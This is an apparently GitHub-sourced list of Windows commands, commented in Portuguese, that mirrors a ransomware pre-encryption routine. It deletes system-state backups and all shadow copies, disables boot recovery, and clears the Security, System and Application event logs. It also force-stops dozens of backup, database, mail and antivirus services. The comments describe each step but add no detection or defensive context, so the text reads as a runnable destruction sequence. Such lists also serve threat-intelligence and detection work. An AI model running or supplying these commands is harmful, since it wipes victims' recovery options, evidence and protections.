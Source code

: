 #Utilizado para ativar a regra do Firewall que permite a descoberta de rede. 

"netsh.exe" advfirewall firewall set rule "group=”Network Discovery”" new enable=Yes

#Usado para excluir todas as cópias de backup do estado do sistema no Windows Server Backup, mantendo zero versões.

"wbadmin.exe" delete systemstatebackup -keepVersions:0 -quiet

#Utilizado para excluir uma cópia de backup do estado do sistema Windows Server Backup.

"wbadmin.exe" DELETE SYSTEMSTATEBACKUP

#Utilizado para excluir a cópia mais antiga do backup do sistema no Windows Server Backup. 

"wbadmin.exe" DELETE SYSTEMSTATEBACKUP -deleteOldest

#Utilizado para manipular a configuração do Boot Configuration Data (BDC) no Windows, desabilita a recuperação do sistema no menu de inicialização do Windows. 

"bcdedit.exe" /set {default} recoveryenabled No

#Utilizado para configurar a política de inicialização do Windows para ignorar todas as falhas. 

"bcdedit.exe" /set {default} bootstatuspolicy ignoreallfailures

#Utilizado o wevutil para limpezar dos logs Security, System e Application.

"cmd.exe" /c wevtutil cl security

"cmd.exe" /c wevtutil cl system

"cmd.exe" /c wevtutil cl application


#Comando utilizado para interrupção de serviços de rede, o parâmetro /y é para não solicitar confirmação do usuário. 

"net" stop /y vmcomp

"net" stop /y vmwp

"net" stop /y veeam

"net" stop /y Back

"net" stop /y xchange

"net" stop /y backup

"net" stop /y Backup

"net" stop /y acronis

"net" stop /y AcronisAgent

"net" stop /y AcrSch2Svc

"net" stop /y sql

"net" stop /y Enterprise

"net" stop /y Veeam

"net" stop /y VeeamTransportSvc

"net" stop /y VeeamNFSSvc

"net" stop /y AcrSch

"net" stop /y bedbg

"net" stop /y DCAgent

"net" stop /y EPSecurity

"net" stop /y EPUpdate

"net" stop /y Eraser

"net" stop /y EsgShKernel

"net" stop /y FA_Scheduler

"net" stop /y IISAdmin

"net" stop /y IMAP4

"net" stop /y MBAM

"net" stop /y Endpoint

"net" stop /y Afee

"net" stop /y McShield

"net" stop /y task

"net" stop /y mfemms

"net" stop /y mfevtp

"net" stop /y mms

"net" stop /y MsDts

"net" stop /y Exchange

"net" stop /y ntrt

"net" stop /y PDVF

"net" stop /y POP3

"net" stop /y Report

"net" stop /y RESvc

"net" stop /y Monitor

"net" stop /y Smcinst

"net" stop /y SmcService

"net" stop /y SMTP

"net" stop /y SNAC

"net" stop /y swi_

"net" stop /y CCSF

"net" stop /y ccEvtMgr

"net" stop /y ccSetMgr

"net" stop /y TrueKey

"net" stop /y tmlisten

"net" stop /y UIODetect

"net" stop /y W3S

"net" stop /y WRSVC

"net" stop /y NetMsmq

"net" stop /y ekrn

"net" stop /y EhttpSrv

"net" stop /y ESHASRV

"net" stop /y AVP

"net" stop /y klnagent

"net" stop /y wbengine

"net" stop /y KAVF

"net" stop /y mfefire

"net" stop /y svc$

"net" stop /y memtas

"net" stop /y mepocs

"net" stop /y GxVss

"net" stop /y GxCVD

"net" stop /y GxBlr

"net" stop /y GxFWD

"net" stop /y GxCIMgr

"net" stop /y BackupExecVSSProvider

"net" stop /y BackupExecManagementService

"net" stop /y BackupExecJobEngine

"net" stop /y BackupExecDiveciMediaService

"net" stop /y BackupExecAgentBrowser

"net" stop /y BackupExecAgentAccelerator

"net" stop /y vss

"net" stop /y BacupExecRPCService

"net" stop /y CASAD2WebSvc

"net" stop /y CAARCUpdateSvc

"net" stop /y YooBackup

"net" stop /y YooIT"


#Excluir todas as cópias de sombra (shadow copies) armazenadas pelo serviço VSS.

vssadmin.exe delete shadows /all /quiet

#Utilizado para todas as cópias de sombra do sistema usando o WMIC. 

"wmic.exe" SHADOWCOPY DELETE /nointeractive
